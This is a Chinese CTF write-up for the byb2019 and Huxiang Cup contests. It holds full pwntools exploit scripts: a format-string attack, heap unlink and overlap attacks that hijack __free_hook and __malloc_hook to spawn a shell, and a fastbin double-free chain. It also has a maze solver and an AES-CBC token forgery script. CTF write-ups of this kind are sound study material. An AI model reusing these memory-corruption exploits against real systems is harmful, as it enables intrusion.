

周末打了湖湘杯和省赛，凑一篇wp（

# byb2019

就解了一题，第一题逆向看的我头疼，难死了，第二题逆向。。。。（

## easy_printf

pwnable.tw原题魔改，`bss`没有`stdin`,`stdout`,`stderr`了，但是一开始有个询问姓名，不知道有什么用,后来试了各种方法，想到了把`stdout`的`fileno`改为`2`，就可以绕过`close(1)`了
而且刚好
```asm
 ► 0x40089f <func1+57>    mov    eax, 0
   0x4008a4 <func1+62>    call   func2 <0x4007fa>
 
   0x4008a9 <func1+67>    mov    eax, 0
   0x4008ae <func1+72>    mov    rcx, qword ptr [rbp - 8]
   0x4008b2 <func1+76>    xor    rcx, qword ptr fs:[0x28]
   0x4008bb <func1+85>    je     func1+92 <0x4008c2>
 
   0x4008bd <func1+87>    call   0x400648
 
   0x4008c2 <func1+92>    leave  
   0x4008c3 <func1+93>    ret    
 
   0x4008c4 <main>        push   rbp
   0x4008c5 <main+1>      mov    rbp, rsp
───────────────────────────────────[ STACK ]────────────────────────────────────
00:0000│ rsi rsp  0x7fffc9a192f0 ◂— 0x4141414141414141 ('AAAAAAAA')
01:0008│          0x7fffc9a192f8 —▸ 0x7fe173507690 (_IO_file_underflow+496) ◂— 0xe8df8948fffffeff
02:0010│          0x7fffc9a19300 —▸ 0x7fe173852540 (_IO_2_1_stderr_) ◂— 0xfbad2087
```

名字下面残留有`stderr`，所以读取名字时,`partial overwrite`改为`_IO_2_1_stdout_->_fileno`，然后把`_fileno`改为2即可，后面的和`pwnable.tw`没什么区别，有了泄露，也有了无限格式化字符串攻击，随便怎么玩

exp为:

```python
from pwn import *

def fmtstr(offset, addr, data, written):
	cnt = 0
	payload = ''
	address = ''
	for x in data:
		cur = ord(x)
		if cur >= written&0xff:
			to_add = cur - (written&0xff)
		else:
			to_add = 0x100 + cur - (written&0xff)
		round = ''
		if to_add != 0:
			round += "%{}c".format(to_add)
		round += "%{}$hhn".format(offset+cnt+len(data)*2)
		assert(len(round) <= 0x10)
		written += to_add + 0x10 - len(round)
		payload += round.ljust(0x10, '_')
		address += p64(addr+cnt)
		cnt+=1
	return payload + address


def main(host,port=12001):
	if host:
		p = remote(host,port)
	else:
		# p = process("./easy_printf",env={"LD_PRELOAD":"./libc.so"})
		p = process("./easy_printf")
		gdb.attach(p,"b *0x000000000400846")
	p.recvuntil("write down your name")
	# t = raw_input('guess: ')
	t = 0x7
	stdout_fileno = (int(t) << 12) | 0x690
	p.send("A"*0x10+p16(stdout_fileno))
	pause()
	
	buf_addr = 0x601060
	payload =  "%{}c%28$hhn%{}c%58$hn".format(2,0x2a6).ljust(0x18,'_')
	payload += fmtstr(9,buf_addr,p64(0x000000000400814)[:3],0x2ab)
	p.send(payload)
	pause()
	
	
	payload =  "%{}c%23$hhn%35$p-%36$p^%37$p-%38$p-%39$p*%40$p-".format(0x14)
	p.send(payload)
	pause()
	p.recvuntil("^")
	stack = int(p.recvuntil('-',drop=True),16)
	p.recvuntil("*")
	libc.address = int(p.recvuntil('-',drop=True),16)-0x20837
	info("stack : " + hex(stack))
	info("libc : " + hex(libc.address))
	onegadget = 0xf1147+libc.address
	
	ret_addr = stack - 0x1e8
	payload =  "%{}c%23$hhn".format(0x14).ljust(0x10,'_')
	payload += fmtstr(15,ret_addr,p64(onegadget)[:2],0x19)
	p.send(payload)
	pause()
	# :0000000000400865                 retn
	offset = 13
	payload =  "%{}c%16$hhn%{}c%17$hn".format(ord(p64(onegadget)[2:3]),0x865-ord(p64(onegadget)[2:3])).ljust(0x18,'_')
	payload += p64(ret_addr+2)+p64(ret_addr-8)
	payload = payload.ljust(0x80,"\x00")
	p.send(payload)
	p.interactive()
if __name__ == "__main__":
	libc = ELF("./libc.so",checksec=False)
	main(args['REMOTE'])
```
具体攻击流程可以看[https://github.com/De1ta-team/De1CTF2019/tree/master/writeup/pwn/Unprintable](https://github.com/De1ta-team/De1CTF2019/tree/master/writeup/pwn/Unprintable)

# hxb

湖湘杯，没啥好说的。。

## icekey

`.net`逆向，`dnSpy`启动，动态调试就行，程序后面会解密，直接把解密的内容改为
```c
a3acf8d62aaa0b6:                        // DATA XREF: __main↑o
    text "UTF-16LE", "3ACF8D62AAA0B630C4AF43AF327CE129D46F0FEB98D9040F713"
    text "UTF-16LE", "BE65502A5107A",0
```
跑一下就好了（其实我根本没看懂怎么加密解密的


## HackNote

这题还临时该文件的，不知道说啥了，第一版，`unlink`后控制整个数组，改`__free_hook`为`shellcode`地址就好,因为程序数据段可执行

第一版exp为：

```python
from pwn import *

context.arch='amd64'

def debug(addr,PIE=True):
	if PIE:
		text_base = int(os.popen("pmap {}| awk '{{print $1}}'".format(p.pid)).readlines()[1], 16)
		gdb.attach(p,'b *{}'.format(hex(text_base+addr)))
	else:
		gdb.attach(p,"b *{}".format(hex(addr)))

def cmd(command):
	p.recvuntil("xit")
	p.recvuntil("-----------------")
	p.sendline(str(command))
def add(sz,content):
	cmd(1)
	p.recvuntil("Size:")
	p.sendline(str(sz))
	p.recvuntil("Note:")
	p.send(content)

def dele(idx):
	cmd(2)
	p.sendlineafter("Index of Note:",str(idx))
def edit(idx,content):
	cmd(3)
	p.sendlineafter("Index of Note:",str(idx))
	p.recvuntil("Note:")
	p.send(content)

def main(host,port=12604):
	global p
	if host:
		p = remote(host,port)
	else:
		p = process("./HackNote")
		# p = process("./HackNote",env={"LD_PRELOAD":"./x64_libc.so.6"})
		# gdb.attach(p,"b *0x000000000400CB1")
		gdb.attach(p)
		# debug(0x0000000000000A69)
	add(0xf8,"A\n")	#0
	add(0xf8,"A\n")	#1
	add(0xf8,"A\n")	#2
	add(0xf8,"A\n")	#3
	edit(3,"A"*0xf8)
	add(0xf8,"B\n")	#4
	add(0x68,"C\n")	#5
	ptr_array = 0x0000000006CBC40
	payload = "A"*8+p64(0xf1)
	payload += p64(ptr_array)+p64(ptr_array+0x8)
	payload = payload.ljust(0xf0,"\x00")
	payload += p64(0xf0)+'\n'
	edit(3,payload)
	dele(4)
	edit(3,p64(ptr_array)+'\n')
	# now we control the ptr array
	free_hook = 0x6CC988
	payload = p64(ptr_array)+p64(free_hook)
	payload += asm(shellcraft.sh())
	payload = payload.ljust(0x80,"\x00") 
	payload += p64(0x200)*2
	edit(0,payload+'\n')
	edit(1,p64(ptr_array+0x10)+'\n')
	dele(0)
	
	p.interactive()
	
if __name__ == "__main__":

	main(args['REMOTE'])
```

然后主办方临时把数组搬到了栈上，那也没啥事，换个思路就好了，先`overlap`,在中间夹一块`free`掉的`fastbin`就好，这次改`__malloc_hook`，也是改为`shellcode`的地址就好

exp为：

```python
from pwn import *

context.arch='amd64'

def cmd(command):
	p.recvuntil("xit")
	p.recvuntil("-----------------")
	p.sendline(str(command))
def add(sz,content):
	cmd(1)
	p.recvuntil("Size:")
	p.sendline(str(sz))
	p.recvuntil("Note:")
	p.send(content)

def dele(idx):
	cmd(2)
	p.sendlineafter("Index of Note:",str(idx))
def edit(idx,content):
	cmd(3)
	p.sendlineafter("Index of Note:",str(idx))
	p.recvuntil("Note:")
	p.send(content)

def main(host,port=14604):
	global p
	if host:
		p = remote(host,port)
	else:
		p = process("./HackNote")
	
		# gdb.attach(p,"b *0x000000000400CB1")
		gdb.attach(p)
	
	
	add(0xf8,"000\n")	#0
	add(0x38,"111\n")	#1
	edit(1,"A"*0x38)
	add(0xf8,"222\n")	#2
	add(0x68,"333\n")	#3
	dele(0)
	edit(1,"A"*0x30+p64(0x140)+'\n')
	dele(2)
	dele(1)
	add(0xc8,"000\n")	#0
	payload = "A"*0x28+p64(0x41)+p64(0x6cb772)
	add(0xf8,payload+'\n')
	add(0x38,"1111\n")
	payload = "\x00"*6+p64(0x6cb790)
	payload += asm('''
		mov rdx,0x68732f6e69622f
		push rdx
		mov rdi,rsp
		xor rsi,rsi
		xor rdx,rdx
		push 0x3b
		pop rax
		syscall
	''')
	add(0x38,payload+'\n')
	cmd(1)
	p.recvuntil("Size:")
	p.sendline(str(1))
	p.interactive()
	
if __name__ == "__main__":
	main(args['REMOTE'])
```

## nameSystem

Thanks @V1ct0r

`dele`的时候有问题，先`add`满，然后`dele(18)`,就造成了`double free`了，我脑抽了`exp`写的很复杂，先攻击到数组，然后在数组里面构造了一个假的`chunk`释放掉，以备后面使用

```c
pwndbg> telescope 0x6020a0 30
00:0000│   0x6020a0 ◂— 0x0
01:0008│   0x6020a8 ◂— 0x51 /* 'Q' */
02:0010│   0x6020b0 ◂— 0x0
03:0018│   0x6020b8 —▸ 0x6020b0 ◂— 0x0
04:0020│   0x6020c0 —▸ 0x602048 —▸ 0x7fd85d70a250 (read) ◂— cmp    dword ptr [rip + 0x2d24e9], 0
05:0028│   0x6020c8 ◂— 0x0
... ↓
0b:0058│   0x6020f8 ◂— 0x21 /* '!' */
0c:0060│   0x602100 —▸ 0x1349860 ◂— 0x4141414141414141 ('AAAAAAAA')
... ↓
10:0080│   0x602120 —▸ 0x1349240 ◂— 0x4141414141414141 ('AAAAAAAA')
11:0088│   0x602128 —▸ 0x1349860 ◂— 0x4141414141414141 ('AAAAAAAA')
12:0090│   0x602130 —▸ 0x60209d ◂— 0x0
13:0098│   0x602138 ◂— 0x0
```

然后又攻击了`free@got`改成了`puts`泄露`libc`，然后在`fastbin dup`攻击`__realloc_hook`和`__malloc_hook`来`getshell`

exp为:

```python
from pwn import *

context.arch='amd64'

def cmd(command):
	p.recvuntil("Your choice :")
	p.sendline(str(command))
def add(sz,name):
	cmd(1)
	p.recvuntil("Size:")
	p.sendline(str(sz))
	p.recvuntil("Name:")
	p.send(name)

def dele(idx):
	cmd(3)
	p.sendlineafter("to delete:",str(idx))

def main(host,port=21605):
	global p
	if host:
		p = remote(host,port)
	else:
		p = process("./NameSystem")
	
		# gdb.attach(p,"b *0x000000000400CB1")
		gdb.attach(p)
	ptr_array = 0x0000000006020A0
	for i in range(20):
		add(0x60,"A"*0x60)
	dele(18)
	for i in range(4):
		dele(0)
	dele(19)
	dele(0)
	dele(17)
	dele(0)
	dele(15)
	
	add(0x60,p64(ptr_array-0x13)+'\n')
	add(0x60,"A"*0x60)
	add(0x60,"A"*0x60)
	payload = "\x00"*3+p64(0)+p64(0x51)
	payload += p64(0)+p64(0x6020b0)+p64(elf.got["read"])
	payload += "\x00"*0x30+p64(0x21)[:5]
	
	add(0x60,payload)
	
	dele(3)
	
	for i in range(0xa):
		add(0x50,"A"*0x50)
	
	dele(18)
	dele(19)
	dele(0xb)
	dele(9)
	dele(0x10)
	dele(0xd)
	dele(0xd)
	add(0x50,p64(0x601ffa)+'\n')
	add(0x50,"A"*0x50)
	add(0x50,"A"*0x50)
	payload = "\x00"*0xe+p64(elf.plt["puts"])[:6]
	add(0x50,payload+'\n')
	dele(3)
	libc.address = u64(p.recv(6).ljust(8,"\x00")) - libc.symbols["read"] 
	info("libc : " + hex(libc.address))
	add(0x40,p64(0)*4+'\n')
	add(0x60,p64(libc.symbols["__malloc_hook"]-0x23)+'\n')
	add(0x60,"A"*0x60)
	add(0x60,"A"*0x60)
	payload = "\x00"*0xb+p64(libc.address+0x4526a)+p64(libc.symbols["realloc"]+8)
	add(0x60,payload+'\n')
	cmd(1)
	p.recvuntil("Size:")
	p.sendline(str(32).ljust(0x10,"\x00"))
	
	p.interactive()
	
if __name__ == "__main__":
	elf = ELF("./NameSystem",checksec=False)
	libc = ELF("/lib/x86_64-linux-gnu/libc.so.6",checksec=False)
	main(args['REMOTE'])

```

## ezre

走迷宫

```python
maps = [
  0x08, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x0E, 0x00, 
  0x00, 0x00, 0x0B, 0x00, 0x00, 0x00, 0x07, 0x00, 0x00, 0x00, 
  0x10, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x0B, 0x00, 
  0x00, 0x00, 0x0F, 0x00, 0x00, 0x00, 0x0F, 0x00, 0x00, 0x00, 
  0x01, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x09, 0x00, 
  0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 
  0x01, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x01, 0x00, 
  0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x0B, 0x00, 0x00, 0x00, 
  0x01, 0x00, 0x00, 0x00, 0x0C, 0x00, 0x00, 0x00, 0x0C, 0x00, 
  0x00, 0x00, 0x08, 0x00, 0x00, 0x00, 0x0E, 0x00, 0x00, 0x00, 
  0x01, 0x00, 0x00, 0x00, 0x08, 0x00, 0x00, 0x00, 0x01, 0x00, 
  0x00, 0x00, 0x08, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 
  0x01, 0x00, 0x00, 0x00, 0x0C, 0x00, 0x00, 0x00, 0x09, 0x00, 
  0x00, 0x00, 0x0E, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 
  0x0D, 0x00, 0x00, 0x00, 0x08, 0x00, 0x00, 0x00, 0x0B, 0x00, 
  0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 
  0x01, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x01, 0x00, 
  0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x09, 0x00, 0x00, 0x00, 
  0x0A, 0x00, 0x00, 0x00, 0x09, 0x00, 0x00, 0x00, 0x09, 0x00, 
  0x00, 0x00, 0x63, 0x00, 0x00, 0x00
]


l = []
for i in range(49):
	l.append(hex(maps[4*i])[2:])
	
for i in range(7):
	print l[i*7:i*7+7]
	
route = 'SDDWDDDSSSSAAWAAASSDDSDDDD'
r = ''
for i in route:
	if i == 'W':
		print 1
	elif i == 'S':
		print 2
	elif i == 'A':
		print 3
	else:
		print 4

```

## give_me_passport

```pytho
from Crypto.Cipher import AES
from pwn import *
p = remote("183.129.189.62",13406)
p.recvuntil("passport is ")
admin = "Admin".ljust(0x10,chr(0x10-5))
KEY = b'JustKey not fl@g'
iv = p.recv(32)
cipher = AES.new(KEY, AES.MODE_CBC, iv.decode('hex'))
p.recvuntil("10 minutes!")
p.sendline(iv + cipher.encrypt(admin).encode('hex'))
p.interactive()
```

